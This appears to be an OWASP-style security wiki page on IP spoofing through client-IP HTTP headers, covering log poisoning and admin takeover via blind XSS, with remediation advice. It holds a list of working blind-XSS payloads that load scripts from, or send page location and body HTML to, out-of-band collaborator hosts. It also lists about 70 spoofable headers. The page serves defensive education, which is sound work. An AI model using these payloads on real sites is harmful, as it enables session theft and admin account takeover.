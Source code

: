 ```yaml
---
layout: col-sidebar
title: IP Spoofing via HTTP Headers
author: Ahmadreza Parsizadeh
contributors: AREX
tags: [attack, IP Spoofing, XSS, Admin Account Take Over]
---
```


{% include writers.html %}

# IP Spoofing via HTTP Headers

## Description

In the realm of web security, understanding the nuances of IP spoofing becomes paramount as malicious actors exploit vulnerabilities in HTTP headers to deceive systems. By examining the risks associated with trusting headers like X-Forwarded-For, The potential consequences will be unveiled and offer insights into securing applications against these threats.

## **Significance of Client IP Addresses:**
   Client IP addresses often serve as crucial identifiers in web applications, influencing access controls and rate limits. Understanding their significance is paramount for evaluating potential vulnerabilities and implementing robust security measures.
###### Examples of Access Controls and Rate Limits:
1. **Access Controls Based on IP Addresses:**
   - *Scenario:* An application restricts access to sensitive administrative functionality only to clients connecting from the local IP address of the server.
   - *Implementation:* The application checks the source IP address of incoming requests and grants access only if the address matches the server's local IP.
2. **Rate Limits Based on IP Addresses:**
   - *Scenario:* A login system allows a limited number of failed login attempts from each unique IP address within a specified timeframe.
   - *Implementation:* The application tracks failed login attempts along with the corresponding IP addresses. If the allowed limit is exceeded, further login attempts from that IP are temporarily restricted.

### Web Application Impact

#### Impact on User Activity Logs:

IP spoofing can significantly impact web applications that log user activity, leading to potential inaccuracies in historical data and log poisoning. Malicious actors exploiting IP spoofing may manipulate logs, making it challenging to trace legitimate and malicious actions accurately.

#### Admin Account Takeover using Blind XSS:

1. **Scenario:**
  - Malicious actors utilize IP spoofing to inject payloads via HTTP headers, leading to generating inaccurate logs or inject malicious payloads via HTTP headers for achieving Blind XSS to take over the admin's account.

2. **Impact:**
 - Blind-stored XSS attacks allow adversaries to inject malicious scripts into the application's database. When legitimate users access compromised pages, these scripts execute, potentially leading to unauthorized access, data theft, or other malicious activities. For numerous web applications based on their functionality, the admin needs to access the history of login activities and users' IPs will be recorded. The attacker injects some Blind XSS payloads and if the admin portal is vulnerable to XSS, the attacker can hijack the admin's cookies and take over the admin's account.

### Payloads for Blind XSS
```HTML
'"><img src="https://example.burpcollaborator.net/image">

</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/yourcollaboratordomain/).slice(2), document.documentElement.appendChild(s))//'>

[<iframe/srcdoc=”<script/src=//narayananm.xss.ht></script>”>]

'"><img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://"+btoa(document.location)+".example.burpcollaborator.net/image-dns?"'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='fetch("https://example.burpcollaborator.net/image-xss-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})'>

'"><iframe src='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></iframe>

'"><iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>

'"><iframe srcdoc='<script>fetch("https://example.burpcollaborator.net/iframe-srcdoc-post",{method:"POST",body:btoa(parent.document.body.innerHTML),mode:"no-cors"})</script>'></iframe>

'"><object data='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></object>

<input onfocus='fetch("https://example.burpcollaborator.net/imput-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})' autofocus>

'"><script src=https://example.burpcollaborator.net/script-tag></script>

'"><script type="text/javascript" src="https://example.burpcollaborator.net/script-tag-type"></script>

'"><script type="module" src="https://example.burpcollaborator.net/script-tag-module"></script>

'"><script nomodule src="https://example.burpcollaborator.net/script-tag-nomodule"></script>

javascript:window.location="https://example.burpcollaborator.net/js-scheme?"+btoa(document.location)

javascript:fetch("https://example.burpcollaborator.net/js-scheme-fetch?"+btoa(document.location))


```

### Headers for IP Spoofing

```HTTP
CACHE_INFO: 127.0.0.1
CF_CONNECTING_IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CLIENT_IP: 127.0.0.1
Client-IP: 127.0.0.1
COMING_FROM: 127.0.0.1
CONNECT_VIA_IP: 127.0.0.1
FORWARD_FOR: 127.0.0.1
FORWARD-FOR: 127.0.0.1
FORWARDED_FOR_IP: 127.0.0.1
FORWARDED_FOR: 127.0.0.1
FORWARDED-FOR-IP: 127.0.0.1
FORWARDED-FOR: 127.0.0.1
FORWARDED: 127.0.0.1
HTTP-CLIENT-IP: 127.0.0.1
HTTP-FORWARDED-FOR-IP: 127.0.0.1
HTTP-PC-REMOTE-ADDR: 127.0.0.1
HTTP-PROXY-CONNECTION: 127.0.0.1
HTTP-VIA: 127.0.0.1
HTTP-X-FORWARDED-FOR-IP: 127.0.0.1
HTTP-X-IMFORWARDS: 127.0.0.1
HTTP-XROXY-CONNECTION: 127.0.0.1
PC_REMOTE_ADDR: 127.0.0.1
PRAGMA: 127.0.0.1
PROXY_AUTHORIZATION: 127.0.0.1
PROXY_CONNECTION: 127.0.0.1
Proxy-Client-IP: 127.0.0.1
PROXY: 127.0.0.1
REMOTE_ADDR: 127.0.0.1
Source-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Via: 127.0.0.1
WL-Proxy-Client-IP: 127.0.0.1
X_CLUSTER_CLIENT_IP: 127.0.0.1
X_COMING_FROM: 127.0.0.1
X_DELEGATE_REMOTE_HOST: 127.0.0.1
X_FORWARDED_FOR_IP: 127.0.0.1
X_FORWARDED: 127.0.0.1
X_IMFORWARDS: 127.0.0.1
X_LOCKING: 127.0.0.1
X_LOOKING: 127.0.0.1
X_REAL_IP: 127.0.0.1
X-Backend-Host: 127.0.0.1
X-BlueCoat-Via: 127.0.0.1
X-Cache-Info: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 127.0.0.1, 127.0.0.1, 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyMesh-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-True-Client-IP: 127.0.0.1
XONNECTION: 127.0.0.1
XPROXY: 127.0.0.1
XROXY_CONNECTION: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
ZCACHE_CONTROL: 127.0.0.1
```

## Remediation

1. **Validate and Sanitize Input:**
   - Implement strict input validation to ensure that client-provided data, including headers, is legitimate.
   - Sanitize input to remove potentially harmful content.

2. **Use Secure Protocols:**
   - Enforce the use of secure communication protocols (HTTPS) to protect against man-in-the-middle attacks.

3. **Implement Rate Limiting and Access Controls:**
   - Diversify access controls and rate limiting mechanisms beyond relying solely on client IP addresses.

4. **Logging Best Practices:**
   - Employ logging best practices to detect and respond to potential IP spoofing incidents.
   - Regularly review and analyze logs to identify suspicious activities.

5. **Educate Development Teams:**
   - Provide training to development teams on secure coding practices, emphasizing the risks associated with trusting client-provided data.

By adopting these remediation measures, organizations can bolster their defenses against IP spoofing attacks facilitated through HTTP headers, fortifying their web applications against potential threats.

